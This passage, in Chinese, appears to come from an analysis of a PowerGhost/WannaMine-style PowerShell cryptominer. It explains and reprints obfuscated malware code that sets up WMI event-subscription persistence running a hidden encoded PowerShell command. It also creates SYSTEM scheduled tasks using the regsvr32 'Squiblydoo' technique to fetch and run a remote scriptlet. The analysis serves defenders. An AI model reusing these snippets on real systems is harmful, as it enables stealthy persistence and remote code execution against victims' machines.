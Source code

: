 由于系统性能数据 `Win32_PerfFormattedData_PerfOS_System` 几乎一直在变化，所以每当 5601 秒一定会触发执行 `$Script` 代码。

```powershell linenums="280"
$FilterParams = @{
    Namespace = (('r'+'ootu'+'7gsubscription')  -CRePLaCE  ([cHAr]117+[cHAr]55+[cHAr]103),[cHAr]92)
    Class = ('_'+'_Ev'+'entFil'+'ter')$StaticClass
    Arguments =@{Name=$filterName;EventNameSpace=(('ro'+'ot'+'DaJcimv2')  -CrePLACE  ([chAr]68+[chAr]97+[chAr]74),[chAr]92);QueryLanguage=('W'+'QL');Query=$Query}
    ErrorAction = ('Si'+'le'+'ntly'+'C'+'ontinue')
}
$WMIEventFilter = s`Et-`w`miINStan`Ce @FilterParams

$ConsumerParams = @{
    Namespace = (('roo'+'t{0'+'}subscri'+'pt'+'ion')  -f  [chAr]92)
    Class = ('Comma'+'ndL'+'ine'+'E'+'ventCon'+'sumer')
    Arguments =@{ Name = $consumerName; CommandLineTemplate=('po'+'we'+'rsh'+'ell.ex'+'e -NoP '+'-'+'N'+'o'+'nI'+' -W Hid'+'den -'+'E ')+"$EncodedScript"}
    ErrorAction = ('Sil'+'ent'+'lyCont'+'inue')
}
$WMIEventConsumer = s`Et`-wM`I`inStAnce @ConsumerParams

s`ET-WmiInS`TaNCE -Class __FilterToConsumerBinding -Namespace (('ro'+'otL'+'BEsu'+'bs'+'cripti'+'on').rePLacE('LBE',[StRInG][chaR]92)) -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer} | ouT-N`U`Ll
```

298-299 行创建两个计划任务：

- `SystemFlushDns`: 系统自动时运行
- `Microsoft Assist Job`: 每 20 分钟运行一次

两个任务都执行同样的命令：

```
regsvr32 /u /s /i:http://$nic/antivirus.php scrobj.dll
```

这是一种无文件攻击技术，称为 Squiblydoo，属于 LOLBin 攻击的一种，利用合法的 Windows 组件 `regsvr32` 从远程 URL 加载和执行代码。

- `regsvr32`: Windows 内置的命令行工具，可以用来注册 COM 组件
- `/u`: 注销组件，为了执行后不留下痕迹
- `/s`: 静默模式，不显示消息框
- `/i`: 指定远程 [Scriptlet](https://en.wikipedia.org/wiki/Scriptlet) 脚本位置，这里是 `http://$nic/antivirus.php`
- `scrobj.dll`: Windows 内置的脚本对象处理组件，可以用来解析 Scriptlet 的 XML 结构

```powershell linenums="298"
SCh`T`ASks /create /tn ('Syste'+'mFlu'+'s'+'h'+'Dns') /tr ('regsvr32 /'+'u'+' /s /i'+':h'+'ttp'+':'+'//'+$nic+'/'+'antivirus'+'.'+'ph'+'p sc'+'r'+'obj.'+'dll') /sc onstart /ru ('Syst'+'em') /F
Sch`Ta`sKS /create /tn ('M'+'icros'+'oft Ass'+'ist J'+'ob') /tr ('reg'+'svr32 /'+'u /s /i:http'+'://'+$nic+'/a'+'n'+'tivirus'+'.p'+'hp '+'scrobj.d'+'ll') /sc minute /mo 20 /ru ('Sy'+'s'+'tem') /F
```

300-301 行删除计划任务 `WindowsLogTasks` 和 `System Log Security Check`，这两个计划任务在[网上某个病毒处置办法](https://wukungt.github.io/2019/05/16/Powershell%E6%97%A0%E6%96%87%E4%BB%B6%E6%8C%96%E7%9F%BF%E6%9F%A5%E6%9D%80%E6%96%B9%E6%B3%95/)中找到，文章中 IoC 情报显示属于 [WannaMine](https://malpedia.caad.fkie.fraunhofer.de/details/ps1.wannamine) 家族，与 PowerGhost 是同时期的病毒，这两个病毒代码内容极其相似。
